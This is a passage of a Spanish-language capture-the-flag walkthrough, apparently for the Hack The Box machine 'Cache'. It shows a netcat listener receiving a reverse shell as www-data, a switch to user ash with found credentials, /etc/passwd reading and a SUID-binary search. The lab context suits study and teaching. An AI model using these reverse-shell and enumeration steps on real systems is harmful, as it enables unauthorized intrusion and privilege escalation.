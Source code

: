 ```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.188] 54140
bash: cannot set terminal process group (1587): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cache:/var/www/hms.htb/public_html/interface/main$ whoami
whoami
www-data
www-data@cache:/var/www/hms.htb/public_html/interface/main$
```

Ya nos encontramos dentro de la máquina y para trabajar mejor, vamos a hacer un [Tratamiento de la tty](/tratamiento-tty). Si vemos los usuarios del sistema, vemos que efectivamente se encontraba **ash**, por lo que podriamos tratar de migrar a dicho usuario con las credenciales que tenemos.

```bash
www-data@cache:/var/www/hms.htb/public_html/interface/main$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
ash:x:1000:1000:ash:/home/ash:/bin/bash
luffy:x:1001:1001:,,,:/home/luffy:/bin/bash
www-data@cache:/var/www/hms.htb/public_html/interface/main$
www-data@cache:/var/www/hms.htb/public_html/interface/main$ su ash
Password: 
ash@cache:/var/www/hms.htb/public_html/interface/main$ whoami
ash
ash@cache:/var/www/hms.htb/public_html/interface/main$ 
```

Ya somos el usuario **ash** y podemos visualizar la flag (user.txt). Ahora vamos a enumerar un poco el sistema para ver de que forma nos podemos convertir en root.

```bash
ash@cache:/$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash)
ash@cache:/$ sudo -l
[sudo] password for ash: 
ash@cache:/$
ash@cache:/$ find \-perm -4000 2>/dev/null                                                                                       
./bin/su                                                                                                                         
./bin/fusermount                                                                                                                 
./bin/mount                                                                                                                      
./bin/ping
./bin/umount
./snap/core/9436/bin/mount
./snap/core/9436/bin/ping
./snap/core/9436/bin/ping6
./snap/core/9436/bin/su
./snap/core/9436/bin/umount
./snap/core/9436/usr/bin/chfn
./snap/core/9436/usr/bin/chsh
./snap/core/9436/usr/bin/gpasswd 
./snap/core/9436/usr/bin/newgrp
./snap/core/9436/usr/bin/passwd
./snap/core/9436/usr/bin/sudo
./snap/core/9436/usr/lib/dbus-1.0/dbus-daemon-launch-helper
./snap/core/9436/usr/lib/openssh/ssh-keysign
./snap/core/9436/usr/lib/snapd/snap-confine
./snap/core/9436/usr/sbin/pppd
./snap/core/9993/bin/mount
./snap/core/9993/bin/ping
./snap/core/9993/bin/ping6
```